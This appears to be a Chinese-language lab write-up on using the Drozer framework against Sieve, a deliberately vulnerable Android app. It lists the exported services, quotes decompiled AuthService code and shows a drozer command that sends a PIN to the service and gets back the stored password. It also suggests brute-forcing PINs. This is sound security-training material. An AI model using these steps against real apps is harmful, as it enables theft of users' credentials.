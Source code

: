 ```yaml
---
title: Test Sieve - services exported
tags: [Android, Drozer]

category: "Tools > Others > Android Related > Drozer > Test Sieve"
---
```


# Test Sieve - services exported
1. 列出exported services有哪些
    ```bash
    dz> run app.service.info -a com.mwr.example.sieve
    Attempting to run shell module
    Package: com.mwr.example.sieve
      com.mwr.example.sieve.AuthService
        Permission: null
      com.mwr.example.sieve.CryptoService
        Permission: null
    ```
2. 逆向
    從以上可以知道有兩個service是被export的，這樣的話就可以逆一下判斷可以送出什麼東西以及可能的漏洞在哪，按照教學的說明我直接看==AuthService==這個service，
    在`com.mwr.example.sieve.AuthService`中的其中一段就是有問題的地方:
    ```java
    public class AuthService extends Service {
        ...
        private final class MessageHandler extends Handler {
            ...
            public void handleMessage(Message msg) {
                ...
                switch (msg.what) {
                    case 4:
                        ...
                    case AuthService.MSG_CHECK /* 2354 */:
                        if (msg.arg1 == AuthService.TYPE_KEY) {
                            responseCode3 = 42;
                            String recievedString = returnBundle.getString("com.mwr.example.sieve.PASSWORD");
                            if (AuthService.this.verifyKey(recievedString)) {
                                AuthService.this.showNotification();
                                returnVal2 = 0;
                            } else {
                                returnVal2 = 1;
                            }
                        } else if (msg.arg1 == AuthService.TYPE_PIN) {
                            responseCode3 = 41;
                            String recievedString2 = returnBundle.getString("com.mwr.example.sieve.PIN");
                            if (AuthService.this.verifyPin(recievedString2)) {
                                returnBundle = new Bundle();
                                returnBundle.putString("com.mwr.example.sieve.PASSWORD", AuthService.this.getKey());
                                returnVal2 = 0;
                            } else {
                                returnVal2 = 1;
                            }
                        } else {
                            sendUnrecognisedMessage();
                            return;
                        }
                        sendResponseMessage(5, responseCode3, returnVal2, returnBundle);
                        return;
                    ...

    ```
    首先在msg.what=2354且msg.arg1=AuthService.TYPE_PIN的地方，若程式讀取到的`com.mwr.example.sieve.PIN`的value(也就是PIN Code)，經過verifyPin這個function比對過後一致，則他會return一個bundle，內涵`com.mwr.example.sieve.PASSWORD`以及我們之前設定的password，並且回傳response message給我們
    →[5, 41, 0, {com.mwr.example.sieve.PASSWORD:\<password\>}]
    而這個問題在哪裡呢?經過前期的確認以及逆向，我們可以寫個script爆破，不斷送出一些pin code給這個service，則因為大多時候PIN Code的複雜度比較低，所以總有一天可以得到使用者的密碼了
3. 和service互動
    從下面的結果來看，一開始設定的密碼為==123456acitseccom==
    ```bash
    dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 1 --extra string com.mwr.example.sieve.PIN <User PIN> --bundle-as-obj
    Attempting to run shell module
    Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
      what: 5
      arg1: 41
      arg2: 0
      Extras
        com.mwr.example.sieve.PASSWORD (String) : 123456acitseccom
    ```